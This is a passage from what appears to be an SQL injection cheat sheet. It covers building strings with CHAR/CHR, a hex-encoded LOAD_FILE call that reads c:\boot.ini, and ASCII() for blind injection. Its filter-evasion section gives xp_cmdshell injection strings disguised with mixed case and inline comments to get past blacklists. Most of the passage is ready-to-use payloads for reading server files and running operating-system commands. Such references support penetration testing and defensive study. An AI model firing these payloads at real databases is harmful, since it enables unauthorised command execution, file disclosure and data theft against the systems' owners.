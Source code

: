 This will return 'KLM'.

* Using CHAR()

```char
SELECT CHAR(75)+CHAR(76)+CHAR(77) (S)     This will return 'KLM'.
SELECT CHR(75)||CHR(76)||CHR(77) (O)      This will return 'KLM'.
SELECT (CHaR(75)||CHaR(76)||CHaR(77)) (P) This will return 'KLM'.
```

#### Hex based SQL Injection Samples

```hex
SELECT LOAD_FILE(0x633A5C626F6F742E696E69) (M) This will show the content of c:\boot.ini
```

String Modification & Related

* ASCII() (SMP) Returns ASCII character value of leftmost character. A must have function for Blind SQL Injections.

```ascii
    SELECT ASCII('a')
```

* CHAR() (SM) Convert an integer of ASCII.

```char
    SELECT CHAR(64)
```

### Filter Evasion

Scott Sutherland has written [SQL Injection: Death by Blacklist](https://blog.netspi.com/sql-injection-death-by-blacklist/).

* Standard SQL injection query using xp_cmdshell.

```xpcmdshell
    ‘;exec xp_cmdshell ‘dir’;–
```

* Using the escape character to bypass filters that replace ‘ with ‘ ‘.

```escape
    ‘;exec xp_cmdshell ‘dir’;–
```

* Using upper and lower characters to bypass filters that are case sensitive. Note: The filtering may be case sensitive, but most SQL Server commands are not.

```upperlower
    ‘;exec xP_cMdsheLL ‘dir’;–
```

* Using comments to avoid xp_cmdshell detection. Note: This method doesn’t work in SQL Server versions after 2000.

```comments  
    ‘;ex/**/ec xp_cmds/**/hell ‘dir’;–
```
